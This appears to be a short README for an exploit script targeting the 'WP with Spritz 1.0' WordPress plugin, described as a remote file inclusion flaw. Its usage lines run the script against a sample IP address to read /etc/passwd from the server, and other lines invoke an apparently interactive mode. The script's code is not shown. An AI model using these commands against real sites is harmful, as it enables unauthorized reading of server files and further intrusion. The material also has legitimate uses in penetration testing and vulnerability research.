 # WordPress Plugin WP with Spritz 1.0 - Remote File Inclusion

WP with Spritz is a plugin that allows readers of your blog to read more of your content quicker using Spritz "patented speed reading technology".

  ```
./wp_spritz.py --url http://192.168.1.22/ /etc/passwd
./wp_spritz.py --url http://192.168.1.22/ --path /wordpress/ /etc/passwd

./wp_spritz.py --url http://192.168.1.22/ -i
./wp_spritz.py --url http://192.168.1.22/ --path /wordpress/ -i
  ```
